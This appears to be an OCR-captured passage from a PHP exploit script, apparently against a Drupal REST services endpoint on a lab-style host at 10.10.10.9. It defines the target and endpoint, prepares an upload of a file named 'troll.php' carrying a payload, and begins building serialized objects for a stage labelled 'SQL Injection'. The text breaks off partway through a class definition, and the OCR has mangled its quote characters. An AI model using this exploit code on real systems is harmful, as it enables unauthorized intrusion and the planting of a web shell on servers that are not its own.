 $url = ‘10.10.10.9’;

$endpoint_path = ‘/rest’;

$endpoint = ‘rest_endpoint’;

$file = [

‘filename’ => ‘troll.php’,

‘data’ => $payload1

];

$browser = new Browser($url . $endpoint_path);

# Stage 1: SQL Injection

class DatabaseCondition

{

protected $conditions = [

“#conjunction” => “AND”

];

protected $arguments = [];

protected $changed = false;

protected $queryPlaceholderIdentifier = null;

public $stringVersion = null;

public function __construct($stringVersion=null)

{

$this->stringVersion = $stringVersion;

if(!isset($stringVersion))

{

$this->changed = true;

$this->stringVersion = null;

}

}

}

class SelectQueryExtender {

# Contains a DatabaseCondition object instead of a SelectQueryInterface

